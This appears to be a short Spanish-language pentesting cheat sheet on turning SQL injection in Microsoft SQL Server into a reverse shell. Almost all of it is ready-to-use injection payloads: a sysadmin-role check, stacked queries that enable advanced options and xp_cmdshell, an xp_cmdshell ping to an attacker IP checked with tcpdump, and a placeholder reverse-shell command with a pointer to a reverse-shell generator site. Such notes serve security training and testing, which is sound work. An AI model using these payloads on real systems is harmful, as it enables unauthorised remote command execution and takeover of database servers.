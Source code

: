 ### INFO
En primera instancia deberemos cerciorarnos de que nuestro user es SA(sysadmin).

    <dato>' AND IS_SRVROLEMEMBER('sysadmin')=1;--

Si la respuesta nos da true, podemos intentar conseguir una shell reversa abusando de xp_cmdshell.

1. Primero habilitamos las advanced options, esta respuesta deberia darnos false sin el dato, true con el dato.

        ';exec sp_configure 'show advanced options','1';reconfigure;--

2. Habilitamos el xp_cmdshell, debería darnos false sin el dato, true con el dato:

        ';exec sp_configure 'xp_cmdshell','1';reconfigure;--

3. Podriamos probar que todo esté funcional y haya conexión enviandonos un ping corriendo previamente tcpdump:

        sudo tcpdump -i <interfaz>

Luego enviamos el ping:

        ';exec xp_cmdshell 'ping /n 4 192.168.43.164';--

4. Si esto funciona, podriamos enviarnos una shell reversa

        ';exec xp_cmdshell '<shell reversa>'.


Podemos usar revshell para generar reverseshells de manera sencilla:

    https://www.revshells.com/
